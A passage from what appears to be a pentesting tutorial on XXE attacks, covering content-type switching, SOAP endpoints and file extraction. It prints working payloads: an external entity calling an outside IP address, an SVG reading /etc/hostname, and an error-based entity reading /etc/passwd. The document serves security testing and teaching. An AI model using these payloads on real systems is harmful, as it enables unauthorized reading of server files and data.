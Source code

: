 We can also use the Burp Extension named “Content Type Converter“ though i like to at least explain how you can do it manually as well. 

If the server also accepts this request we can try to enter our XXE attack vector. 

```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

In this example only the first node 'Firstname' is tested but ofcourse we need to test all the nodes because XXE can occur on every single node. This happens because the developer either has to secure every node seperately on some XML processors. 

## XXE via SOAP

SOAP stands for Simple Object Access Protocol, it's basically another protocol such as HTTP or FTP but SOAP uses an XML like structure to communicate. The keen eyed among you might have already guessed that SOAP is thus also possibly vulnerable to XXE attacks but we will again have to make sure we test every single node. In SOAP every single node will have to be secured by the developer so we can also test for other things in here like SQLi and XSS due to this fact. 

# Exploiting XXE

## Grabbing files

When we finally do find the much desired XXE attack we do have to still find a way to exploit it fully and this can be a little bit harder to do. Usually the first thing we want to try is to extract files from the local file system. For a pentester this will make for a pretty high severity as is if they can retrieve files but for a bug bounty hunter that will be a medium at most unless the attacked can retrieve files with sensitive information such as database passwords but then still the attacker will need to be able to exploit those credentials. 

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

Sometimes grabbing files is prohibit or simply will not work. We can overcome this in certain instances by triggering error messages that have the content of the message as the file. 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
